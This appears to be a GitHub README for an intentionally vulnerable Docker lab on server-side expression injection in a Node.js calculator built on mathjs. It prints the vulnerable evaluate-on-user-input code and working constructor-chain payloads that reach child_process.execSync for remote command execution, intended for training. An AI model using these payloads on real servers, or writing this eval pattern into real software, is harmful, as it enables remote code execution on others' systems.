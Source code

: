 # 🧠 Server-Side Expression Injection (SSEI) Vulnerable Lab

Welcome to the **SSEI-Lab**, a purposely vulnerable web app built to help security professionals, CTF players, and students learn how Server-Side Expression Injection vulnerabilities work — including how they can lead to Remote Code Execution (RCE).

## 🧠 Purpose

🚀 This repo provides:

- A wordlist of payloads to detect and exploit SSEI.
- A vulnerable Docker lab for hands-on practice.

## What is SSEI?

Server-Side Expression Injection (SSEI) is a vulnerability where user input is interpreted as a code expression on the server side. This often occurs in applications using math evaluators, template engines, or unsafe `eval()` functions.

## Example vulnerable code

```js
const math = require('mathjs');
const userInput = req.body.equation;
const result = math.evaluate(userInput);
res.send("Math result: " + result);
```

## Payload Examples

- `1+1` → 2
- `[].constructor.constructor("return process")()` → access Node.js process object
- `[].constructor.constructor("return process.mainModule.require('child_process').execSync('id').toString()")()` → RCE

## Tools

Use with tools like:

- Burp Suite Intruder
- curl/Postman
- ffuf, wfuzz

## Running the Docker Lab

This Docker-based lab contains a **Node.js web application** that evaluates user-supplied mathematical expressions — similar to many real-world calculators — but with a vulnerability: **user input is evaluated directly**.

### Vulnerability

This lab demonstrates **Server-Side Expression Injection (SSEI)**, which can be exploited to execute arbitrary JavaScript and eventually run **OS-level commands**.

---

## 🧰 Technologies

- Node.js 18
- Express.js
- Minimal frontend (HTML + jQuery)
- Docker

---

## 🐳 How to Use

### Step 1: Build the Docker Image

```bash
git clone https://github.com/D0tP1r4t3/dotpirate-vuln-labs.git
cd ssei-lab
sudo docker build -t ssei-lab .
```
#### On Kali Use the following

```bash
sudo apt update
sudo apt install -y docker.io
sudo systemctl start docker
git clone https://github.com/YOUR_USERNAME/ssei-lab.git
cd ssei-lab
sudo docker build -t ssei-lab .
```

### Step 2: Run the Docker

```bash
sudo docker run -p 3000:3000 ssei-lab
```

Then visit http://localhost:3000

### 🎯 Example Exploit
Once running, enter this payload into the input field:
```js
[]["constructor"]["constructor"]("return process")()
```

Or for command execution:
```js
[]["constructor"]["constructor"]("return global.process.mainModule.require('child_process').execSync('id').toString()")()
```

### 🔐 Disclaimer

This is for educational purposes only. Do NOT deploy this lab on a public server or use it for anything unethical.
